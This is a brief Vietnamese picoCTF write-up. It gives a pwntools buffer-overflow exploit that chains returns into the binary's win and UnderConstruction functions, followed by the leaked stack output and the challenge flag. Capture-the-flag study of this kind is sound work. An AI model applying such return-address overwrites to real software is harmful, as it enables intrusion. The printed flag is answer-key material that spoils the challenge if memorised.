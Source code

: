 # Ý tưởng
ta thấy hàm UnderConstruction() có dùng FMT để leak, và hàm win để cat flag
ở đây ta sẽ nhảy vào hàm win trước và sau đó nhảy vào under để leak dữ liệu trong stack
```python3
from pwn import *
r = remote('saturn.picoctf.net', 51893)
elf = ELF("./vuln")
payload = b"a"*14 + p32(elf.symbols['win']) + p32(elf.symbols['UnderConstruction'])
r.sendlineafter("Give me a string that gets you the flag\n", payload)
r.interactive()
# picoCTF{Cle4N_uP_M3m0rY_8d5089b9}
```
chạy netcat ta nhận được
```
aaaaaaaaaaaaaa\xa0\x9d\x04 \x9e\x04
User information : 0x80c9a04 0x804007d 0x39623938 0x30356438 0x5f597230 0x6d334d5f
Names of user: 0x50755f4e 0x34656c43 0x7b465443
Age of user: 0x6f636970
```
do ở đây ta dùng tool để swap
![image](https://user-images.githubusercontent.com/111769169/224530440-17144a8b-2564-4c2e-9e7e-8f95dca34c8b.png)

